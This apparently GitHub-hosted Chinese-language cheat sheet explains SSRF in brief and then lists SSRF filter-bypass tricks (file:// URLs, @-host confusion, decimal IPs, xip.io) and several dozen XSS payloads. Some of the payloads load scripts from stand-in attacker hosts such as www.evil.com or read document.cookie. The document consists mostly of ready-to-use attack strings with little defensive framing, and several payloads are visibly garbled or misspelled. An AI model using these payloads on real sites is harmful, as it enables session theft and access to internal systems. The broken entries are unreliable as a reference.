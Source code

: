 ## SSRF&XSS
SSRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）

SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。

工具：https://github.com/ethicalhackingplayground/ssrf-king
## 常用绕过 payload等
```

admin=1&url=file://www.ichunqiu.com/var/www/html/flag.php
file://user@evil.com:80@www.google.com//var/www/html/index.php%23
使用@：http://A.com@10.10.10.10 = 10.10.10.10
IP地址转换成十进制、八进制：127.0.0.1 = 2130706433
使用短地址：http://10.10.116.11 = http://t.cn/RwbLKDx
端口绕过：ip后面加一个端口
xip.io：10.0.0.1.xip.io = 10.0.0.1
        www.10.0.0.1.xip.io = 10.0.0.1
        mysite.10.0.0.1.xip.io = 10.0.0.1
        foo.bar.10.0.0.1.xip.io = 10.0.0.1
       
```
## XSS

## 常见payload

```
高版本的jQuery 可以使用sourceMappingURL来加载
- </textarea><script>var a=1//@ sourceMappingURL=//xss.site</script>
- <script>alert(1);</script>
- <img src=0 onerror=alert(1)>
- "><script src=http://www.xxx.com/1.js></script>"
- "></iframe><script>alert(123)></script>
- <body onLoad="while(true) alert("XSS"),">
- "></tile><script>alert(1111)</script>
- </textarea>'"><script>alert(document.cookie)</script>
- '""><script language="JavaScript"> alert("X \nS \nS"),</script>
- </script></script><<<<script><>>>><<<script>alert(123)</script>
- <html><noalert><noscript>(123)</noscript><script>(123)</script>
- <INPUTTYPE="IMAGE"SRC="javasctipt:alert("XSS");">
- '></select><script>alert(123)</script>
- '>'><script src='http://www.evil.com/XSS.js'></script>
- }</style><script>a=eval;b=alert;a(b(/XSS/.source));</- script>
- <SCRIPT>document.write("XSS");</SCRIPT>
- a="get";b="URL";c="javascript:";d="alert("XSS");";eval(a- +b+c+d);
- ='><script>alert("XSS")</script>
- <sctipt+src=">"+src="http://www.evil.com/XSS.js?68,- 69"></script>
- <body backgroud=javascript:'"><script>alert- (navigator.userAgent)</sctipt>></body>
- ">XaDoS/><script>alert(document.cookie)</script><script src="http://www.site.com/X
- Data:text/html;charset=utf-7;base64.Ij481.3RpdGod- [jxzY3JpcHQ+YWxlcnQoMIMzNy
- "<marquee><img src=k.png onerror=alert(/XSS/)/>
- "<marquee><img src=k onerror=alert(/XSS/)>
- '"><marquee><img src=k.png onerror=alert(/XSS/.source)/>
- </div><script>alert(123)</script>
- "><iframe src="javascript:alert(document.cookie)- '><iframe>
- <div style="backgroud:url("javascript:alert(I)')">
- <img src="java\nascript:alert(\"XSS\")">
- >"><img src="javascript:alert("XSS")">
- "style="background:url(javascript:alert(/XSS/))"
- >"><script>alert(/XSS/)</script>
- "></title><script>alert(I)</script>
```
反射XSS:欺骗用户点击，可能会被浏览器过滤

## 其他资料

- https://xianzhi.aliyun.com/forum/topic/83/
- http://kuza55.blogspot.hk/2008/02/csrf-ing-file-upload-fields.html